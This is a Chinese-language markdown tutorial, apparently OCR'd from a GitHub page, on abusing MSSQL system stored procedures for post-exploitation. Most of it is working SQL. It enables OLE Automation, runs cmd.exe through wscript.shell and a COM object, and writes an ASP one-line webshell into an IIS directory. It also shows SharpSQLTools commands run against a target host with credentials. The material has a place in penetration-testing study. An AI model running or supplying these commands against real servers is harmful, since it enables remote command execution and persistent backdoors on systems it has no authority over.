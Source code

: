 #### MSSql扩展存储过程

- 存储过程是为了完成特定功能的`sql语句`集合,经编译后存储于数据库中,用户通过指定存储过程的名称并给出参数来执行.存储过程中可以包含逻辑控制语句和数据操纵语句,它可以接受参数,输出参数,返回单个或多个结果集以及返回值
- 由于存储过程在创建时即在数据库服务器上进行了编译并存储在数据库中,所以存储过程运行要比单个sql语句块要快,同时由于在调用时只需用提供存储过程名和必要的参数信息,所以在一定程度上也可以减少网络流量,减轻网络负担
- 存储过程分为:`系统存储`,`本地存储`,`扩展存储`,`远程存储`,`临时存储`过程

------



#### 系统存储过程

- 以`sp_`开头,进行系统的设定,如:`sp_oacreate`,`sp_oamethod`

- 利用`条件`

  - 1.已获得`sqlserver sysadmin权限`的用户,且账号与密码未降权

  - 2.sqlserver允许`远程连接`

  - `OLE Automation Procedures`选项开启

    `sp_oacreate`是创建OLE对象的实例

    `sp_oamethod`是调用一个OLE对象的方法

    组合`sp_oacreate`,`sp_oamethod`可执行命令无回显

  ```sql
  #启用sp_oacreate
  EXEC sp_configure 'show advanced options',1;
  RECONFIGURE WITH OVERRIDE;
  EXEC sp_configure 'Ole Automation Procedures',1;
  RECONFIGURE WITH OVERRIDE;
  c:/IISRootTest
  #利用mssql定义变量shell调用wscript.shell利用cmd.exe /c 执行命令并写入文件
  declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe /c whoami > c://1.txt'
  
  #写一句话木马webshell
  declare @o int,@f int,@t int,@ret int
  exec sp_oacreate 'scripting.filesystemobject',@o out
  exec sp_oamethod @o,'createtextfile',@f out,'c:/IISRootTest/shell.asp',1
  exec @ret=sp_oamethod @f,'writeline',NULL,'<%execute(request("cmd"))%>'
  
  #组合sp_oacreate和sp_oamethod利用com组件执行命令
  declare @luan int,@exec int,@text int,@str varchar(8000);
  exec sp_oacreate '{72C24DD5-D70A-438B-8A42-98424B88AFB8}',@luan output;
  exec sp_oamethod @luan,'exec',@exec output,'C:/windows/system32/cmd.exe /c whoami';
  exec sp_oamethod @exec,'StdOut',@text out;exec sp_oamethod @text,'readall',@str out;
  select @str;
  
  #SharpSQLTools工具利用sp_oacreate执行命令
  SharpSQLTools.exe 192.168.1.1 tomato tomato master enable_ole
  SharpSQLTools.exe 192.168.1.1 tomato tomato master sp_oacreate whoami
  ```
